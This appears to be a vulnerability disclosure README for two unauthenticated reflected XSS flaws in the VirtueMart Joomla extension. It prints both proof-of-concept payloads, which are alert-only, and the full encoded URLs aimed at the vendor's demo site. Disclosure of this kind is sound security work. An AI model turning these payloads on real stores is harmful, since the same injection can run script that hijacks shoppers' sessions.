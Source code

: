 # Cross Site Scripting (XSS) in VirtueMart versions before < 4.4.10 for Joomla!

**CVE Link:** Pending

**VirtueMart:** https://virtuemart.net/download

## Introduction

### XSS 1
A unauthenticated reflected XSS vulnerability in VirtueMart extension 1.0.15 - 4.4.10 for Joomla was discovered.

## POC
Payload: `fghj"><img src=x onerror="self.alert('XSS POC')" class=test>`

Final Payload: https://demo.virtuemart.net/?Itemid=606&keyword=fghj%2522%253E%253Cimg%2520src%3Dx%2520onerror%3D%2522self.alert(%27XSS%2520POC%27)%2522%2520class%3Dtest%253E&option=com_virtuemart&view=category&virtuemart_category_id=13

![Alt text](VirtueMart_XSS-0.png)

### XSS 2

Payload: `&#39;&#34;&gt;&lt;img/src/onerror=.1|alert``&gt;`

Final Payload: https://demo.virtuemart.net/list-orders.html?layout=list&view=%26%2339%3B%26%2334%3B%26gt%3B%26lt%3Bimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60%26gt%3B

![Alt text](VirtueMart_XSS-1.png)